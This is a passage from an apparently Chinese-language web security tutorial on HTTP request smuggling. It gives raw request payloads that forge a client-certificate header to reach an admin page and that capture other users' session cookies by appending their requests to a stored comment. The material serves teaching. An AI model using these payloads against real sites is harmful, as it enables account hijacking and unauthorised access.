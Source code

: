 ```
GET /admin HTTP/1.1
Host: normal-website.com
X-SSL-CLIENT-CN: carlos
```

通常会是写到请求头中

但是由于走私的请求却可以直接修改发送来绕过访问控制

## 越权

与其说叫越权，不如说叫盗取Cookie

假设一个应用程序使用下面的请求来提交一篇博客文章的评论，该评论将被存储并显示在博客上

```
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&comment=My+comment&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net
```

此时我们可以发送一个内容长度过长的请求并且注释参数位于请求的末尾

```
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 330

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```

走私请求的Content-Length头部表示主体将有400个字节长，但是我们只发送了144个字节，在这种情况下，后端服务器将在发出响应之前等待剩余的256个字节，如果响应不够快，则会发出超时，因此当另一个请求通过相同的连接发送到后端服务器时，前256个字节会被有效地附加到走私的请求中，从而得到如下响应

```
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj
...
```
